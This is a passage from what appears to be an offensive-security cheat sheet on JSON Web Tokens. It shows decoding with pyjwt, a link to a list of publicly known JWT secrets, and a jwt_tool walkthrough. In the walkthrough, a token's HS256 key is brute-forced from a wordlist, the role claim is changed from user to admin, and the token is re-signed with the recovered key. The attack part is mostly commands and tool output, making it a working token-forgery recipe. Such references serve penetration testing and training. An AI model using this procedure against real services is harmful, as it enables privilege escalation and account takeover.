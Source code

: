     Token header values:
    [+] alg = "HS256"
    [+] typ = "JWT"

    Token payload values:
    [+] name = "John Doe"
    ```
* Using [pyjwt](https://pyjwt.readthedocs.io/en/stable/): `pip install pyjwt`
    ```python
    import jwt
    encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256')
    jwt.decode(encoded, 'secret', algorithms=['HS256']) 
    ```

### Break JWT secret

Useful list of 3502 public-available JWT: [wallarm/jwt-secrets/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list), including `your_jwt_secret`, `change_this_super_secret_random_string`, etc.


#### JWT tool

First, bruteforce the "secret" key used to compute the signature using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```powershell
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
```

Then edit the field inside the JSON Web Token.

```powershell
Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] Continue to next step

Please select a field number (or 0 to Continue):
> 0
```

Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the key length:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

```